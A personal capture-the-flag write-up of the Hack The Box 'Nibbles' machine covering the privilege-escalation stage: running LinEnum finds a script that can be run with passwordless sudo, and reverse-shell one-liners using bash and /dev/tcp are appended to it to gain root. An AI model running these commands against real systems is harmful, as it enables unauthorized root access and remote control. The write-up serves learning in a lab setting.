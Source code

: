 this seems not very useful right now. i'll put it aside for now to further follow up the academy guide.

`LinEnum.sh` should be used to scan for possible escalation vectors. the shell script is available at https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

i tried to download it directly to the target machine with wget, which obviously doesn't work as the machine has no internet access (due to it being contained in the htb vpn). another option is to download it locally to the attack machine and then make it available through a webserver.

```
$ get https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh --connect-timeout=3
...
$ sudo python3 -m http.server 8080
```

then, on the target machine

```
$ wget http://10.10.14.5:8080/LinEnum.sh
...
$ chmod +x LinEnum.sh
$ ./LinEnum.sh

... SNIP ...

[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh

... SNIP ...
```

this tells us that we can, in fact, run the monitor.sh script as sudo. any monitor.sh script, no matter what it does... we can use this to escalate, by appending our attack to the end of the file!

> it is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. we only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.

we can basically use the same approach as before and open a reverse shell to out waiting nc-listener. let's provide one on our attacking vm with `nc -lnvp 4711`.

then, let's append the reverse shell connection to the `monitor.sh` script

```
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4711 0>&1'" >> monitor.sh
echo "bash -c 'bash -i >& /dev/tcp/10.10.15.13/4711 0>&1'" >> monitor.sh
```

and finally run it with

```
sudo ./monitor.sh
```

once the reverse shell has connected to our listener, the flag is in `~/root.txt`.

done!
